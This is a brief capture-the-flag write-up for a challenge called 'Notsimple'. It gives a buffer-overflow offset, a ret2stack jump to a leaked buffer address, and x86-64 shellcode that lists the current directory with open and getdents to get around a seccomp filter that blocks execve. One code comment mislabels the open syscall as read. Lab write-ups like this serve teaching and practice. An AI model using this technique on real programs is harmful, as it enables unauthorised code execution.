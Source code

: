 # Notsimple: ret2stack + seccomp bypass + write ls in asm

Flag is stored as a *filename* in the current folder

There is an executable stack
Steps:
1. There is a buffer overflow with 88 offset
2. return to the leaked address(points to the start of the buffer)
3. fill buffer with shellcode to execute the getdents syscall since execve is disallowed

```asm
mov rax, 0x2e   ; '.'
push rax

mov rax, 2      ; read('.',0,0)
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall

mov rdi, rax    ; make space on stack
mov rdx, 0x1000
sub rsp, rdx
mov rsi, rsp
mov rax, 78
syscall         ; getdents(fd, buffer, size)

xchg rax, rdx
mov rax, 1 
mov rdi, 1
mov rsi, rsp    ; write buffer to stdout
syscall
```